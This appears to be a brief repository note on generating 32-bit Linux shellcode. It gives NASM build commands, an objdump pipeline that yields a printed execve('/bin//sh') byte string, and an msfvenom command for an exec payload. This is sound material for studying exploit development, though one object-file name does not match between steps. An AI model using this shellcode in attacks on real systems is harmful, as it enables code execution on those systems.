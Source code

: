 Shellcode generation

Option 1

To test 32 bit shellcode on linux x86-64
1) vim execve.nasm
2) nasm execve.nasm -f elf32 -o execv.o
3) ld -m elf_i386 -s -o execve execve.o
4) ./execve
5) objdump -d ./execve | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

Result
"\x31\xc0\x89\xc2\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80"


Option 2
./msfvenom -a x86 --platform linux -p linux/x86/exec -f python CMD=/bin/bash
